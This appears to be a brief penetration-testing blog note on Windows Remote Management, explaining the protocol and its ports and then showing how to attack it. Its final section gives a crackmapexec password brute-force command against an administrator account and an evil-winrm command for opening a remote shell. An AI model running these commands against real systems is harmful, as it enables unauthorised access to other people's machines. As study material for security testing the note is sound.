 ```yaml
---
title: 'WinRM'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'winrm']
---
```


## Information

- Windows Remote Management is a remote management protocol that can be used to remote access with windows system over HTTP(S).

- Microsoft implemented WinRM in to Windows in order to make life easier for sysadmins.

- Remote access and intect with local network.

- Manage and configure windows systems remotely.

- Uses PCT port 5985 and 5986 (HTTPS).

## Exploit WinRM

- Implements access control and security for communication between systems through various forms of authentication.

- crackmapexec to perform a brute-force on WinRM.

- Ruby script called evil-winrm to obtain a command shell session.

```bash
crackmapexec winrm target -u administrator -p /usr/share/.../unix_passwd.txt

evil-winrm.rb -u administrator -p 'secretpass' -i target
```
